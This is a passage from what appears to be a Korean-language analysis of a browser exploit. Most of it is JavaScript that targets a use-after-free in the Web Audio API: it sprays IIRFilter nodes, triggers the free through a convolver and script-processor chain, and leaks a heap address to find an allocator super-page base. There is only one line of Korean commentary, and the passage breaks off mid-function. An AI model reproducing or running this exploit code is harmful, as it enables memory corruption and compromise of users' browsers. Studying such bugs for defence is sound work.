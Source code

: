 ```jsx
let gcPreventer = [];
let iirFilters = [];
 
function initialSetup() {
	let audioCtx = new OfflineAudioContext(1, 20, 3000);
 
	let feedForward = new Float64Array(2);
	let feedback = new Float64Array(1);
 
	feedback[0] = 1;
	feedForward[0] = 0;
	feedForward[1] = -1;
 
	for (let i = 0; i < 256; i++)
        iirFilters.push(audioCtx.createIIRFilter(feedForward, feedback));
}
```

exploit 초반부는 OfflineAudioContext를 생성하고 두 개의 float을 통해 초기화되는 IIRFilterNode 객체를 생성합니다.

```jsx
async function triggerUaF(doneCb) {
	let audioCtx = new OfflineAudioContext(2, 0x400000, 48000);
	let bufferSource = audioCtx.createBufferSource();
	let convolver = audioCtx.createConvolver();
	let scriptNode = audioCtx.createScriptProcessor(0x4000, 1, 1);
	let channelBuffer = audioCtx.createBuffer(1, 1, 48000);
 
	convolver.buffer = channelBuffer;
	bufferSource.buffer = channelBuffer;
 
	bufferSource.loop = true;
	bufferSource.loopStart = 0;
	bufferSource.loopEnd = 1;
 
	channelBuffer.getChannelData(0).fill(0);
 
	bufferSource.connect(convolver);
	convolver.connect(scriptNode);
	scriptNode.connect(audioCtx.destination);
 
	bufferSource.start();
 
	let finished = false;
 
	scriptNode.onaudioprocess = function(evt) {
    		let channelDataArray = new Uint32Array(evt.inputBuffer.getChannelData(0).buffer);
 
    		for (let j = 0; j < channelDataArray.length; j++) {
        		if (j + 1 < channelDataArray.length && channelDataArray[j] != 0 && channelDataArray[j + 1] != 0) {
            			let u64Array = new BigUint64Array(1);
            			let u32Array = new Uint32Array(u64Array.buffer);
            			u32Array[0] = channelDataArray[j + 0];
            			u32Array[1] = channelDataArray[j + 1];
 
            			let leakedAddr = byteSwapBigInt(u64Array[0]);
            			if (leakedAddr >> BigInt(32) > BigInt(0x8000))
                			leakedAddr -= BigInt(0x800000000000);
             			let superPageBase = getSuperPageBase(leakedAddr);
 
	             		if (superPageBase > BigInt(0xFFFFFFFF) && superPageBase < BigInt(0xFFFFFFFFFFFF)) {
                			finished = true;
```